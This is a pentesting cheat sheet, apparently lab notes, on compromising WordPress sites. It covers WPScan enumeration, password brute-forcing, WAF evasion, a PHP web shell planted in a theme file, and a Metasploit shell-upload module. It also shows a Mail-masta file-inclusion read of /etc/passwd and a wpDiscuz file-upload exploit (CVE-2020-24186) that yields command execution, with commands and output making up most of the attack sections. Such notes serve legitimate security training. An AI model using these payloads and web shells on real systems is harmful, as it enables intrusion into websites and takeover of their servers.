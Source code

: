 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# WordPress

## General Information

{% hint style="info" %}
[WordPress Vulnerability Statistics](https://wpscan.com/statistics/)
{% endhint %}

<details>

<summary>Directories</summary>

`/wp-admin` -> `/wp-login.php`

`/wp-content/plugins/`

`/wp-content/themes/`

</details>

<details>

<summary>Wordlists</summary>

[wordpress.fuzz.txt](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/CMS/wordpress.fuzz.txt)

[wp-plugins.fuzz.txt](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/CMS/wp-plugins.fuzz.txt)

[wp-themes.fuzz.txt](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/CMS/wp-themes.fuzz.txt)

</details>

<details>

<summary>Roles &#x26; Permissions</summary>

Administrator -> King :crown:

Editor -> Post management + publish (for all users)

Author -> Post management + publish (owned posts)

Contributor -> Post management (owned posts)

Subscriber -> Browse posts, manage its own profile

</details>

## Automated Enumeration (WPScan)

{% hint style="info" %}
For vulnerability scanning get a token from [WPScan](https://wpscan.com/).
{% endhint %}

[WPScan](https://github.com/wpscanteam/wpscan/wiki/WPScan-User-Documentation) is a free, Ruby-based WordPress security scanner that performs black-box testing to identify vulnerabilities in WordPress core, plugins, themes, and user configurations.

{% tabs %}
{% tab title="Update DB" %}
```bash
wpscan --update
```
{% endtab %}

{% tab title="Vulnerable Components" %}
```bash
sudo wpscan --url example.com --enumerate --api-token <TOKEN>
```
{% endtab %}

{% tab title="Brute-force" %}
WPScan uses 2 kinds of BFA:

1. [xmlrpc](https://kinsta.com/blog/xmlrpc-php/) → uses WP's API to BF (`xmlrpc.php`) (faster)
2. wp-login → attempts to BF `wp-login.php`

{% code overflow="wrap" %}
```bash
# Enumerating users and brute-forcing
sudo wpscan --url example.com -e u --passwords password.lst

# Targeted brute-forcing using xmlrpc
sudo wpscan --password-attack xmlrpc -t 20 --url http://example.com -U roger -P /usr/share/wordlists/rockyou
```
{% endcode %}
{% endtab %}

{% tab title="WAF Evasion" %}
{% code overflow="wrap" %}
```bash
sudo wpscan --url example.com --enumerate --api-token <TOKEN> --random-user-agent
```
{% endcode %}
{% endtab %}
{% endtabs %}

## Manual Enumeration

{% tabs %}
{% tab title="Version" %}
```bash
curl -s example.com | grep '<meta name="generator"'
```
{% endtab %}

{% tab title="Themes" %}
```bash
curl -s example.com | grep themes
```
{% endtab %}

{% tab title="Plugins" %}
```bash
curl -s example.com | grep plugins
```
{% endtab %}

{% tab title="Plugin Version" %}
Plugin version requires Directory listing to be enabled:

{% code overflow="wrap" %}
```bash
curl -s example.com/wp-content/plugins/mail-masta/readme.txt | grep "Stable tag:"
```
{% endcode %}
{% endtab %}
{% endtabs %}

## RCE

### Browser

A simple PHP web shell (obfuscate the file name).&#x20;

```php
<?php system($_GET['c']); ?>
```

Modify a less-used file of an inactive theme for avoiding breaking the site.

<figure><img src="../../../.gitbook/assets/http_80_ir_webshell_process.png" alt=""><figcaption><p>Step for RCE after gaining admin access.</p></figcaption></figure>

Interact with the shell via CLI.

```bash
curl http://example.com/wp-content/themes/twentytwenty/404.php?c=id
```

### Metasploit

```bash
# launch metasploit
msfconsole -q
# use module (make sure to `set VHOST`)
msf6 > use exploit/unix/webapp/wp_admin_shell_upload
```

## Vulnerabilities

### Mail-masta

No longer supported:

* [unauthenticated SQL injection](https://www.exploit-db.com/exploits/41438)
* [Local File Inclusion](https://www.exploit-db.com/exploits/50226).

{% code overflow="wrap" %}
```php
<?php 

include($_GET['pl']); # no validation/sanitization
global $wpdb;

$camp_id=$_POST['camp_id'];
$masta_reports = $wpdb->prefix . "masta_reports";
$count=$wpdb->get_results("SELECT count(*) co from  $masta_reports where camp_id=$camp_id and status=1");

echo $count[0]->co;

?>
```
{% endcode %}

{% code overflow="wrap" %}
```shell
$ curl -s http://blog.inlanefreight.local/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...snip...
```
{% endcode %}

### wpDiscuz

`wpDiscuz` is a plugin aimed to enhance commenting on page posts. Based on the version number (`7.0.4`), this [exploit](https://www.exploit-db.com/exploits/49967) has a pretty good shot of getting us command execution via a file upload bypass.

`wpDiscuz` is intended only to allow image attachments. The file mime type functions could be bypassed, allowing an unauthenticated attacker to upload a malicious PHP file and gain remote code execution. The exploit script takes two parameters: `-u` the URL and `-p` the path to a valid post:

{% code overflow="wrap" %}
```bash
$ python3 wp_discuz.py -u http://blog.inlanefreight.local -p /?p=1

---------------------------------------------------------------
[-] Wordpress Plugin wpDiscuz 7.0.4 - Remote Code Execution
[-] File Upload Bypass Vulnerability - PHP Webshell Upload
[-] CVE: CVE-2020-24186
[-] https://github.com/hevox
--------------------------------------------------------------- 

[+] Response length:[102476] | code:[200]
[!] Got wmuSecurity value: 5c9398fcdb
[!] Got wmuSecurity value: 1 

[+] Generating random name for Webshell...
[!] Generated webshell name: uthsdkbywoxeebg

[!] Trying to Upload Webshell..
[+] Upload Success... Webshell path:url&quot;:&quot;http://blog.inlanefreight.local/wp-content/uploads/2021/08/uthsdkbywoxeebg-1629904090.8191.php&quot; 

> id

[x] Failed to execute PHP code...
```
{% endcode %}

The exploit as written may fail, but we can use curl to interact with the uploaded webshell:

{% code overflow="wrap" %}
```bash
$ curl -s http://blog.inlanefreight.local/wp-content/uploads/2021/08/uthsdkbywoxeebg-1629904090.8191.php?cmd=id

GIF689a;

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
{% endcode %}
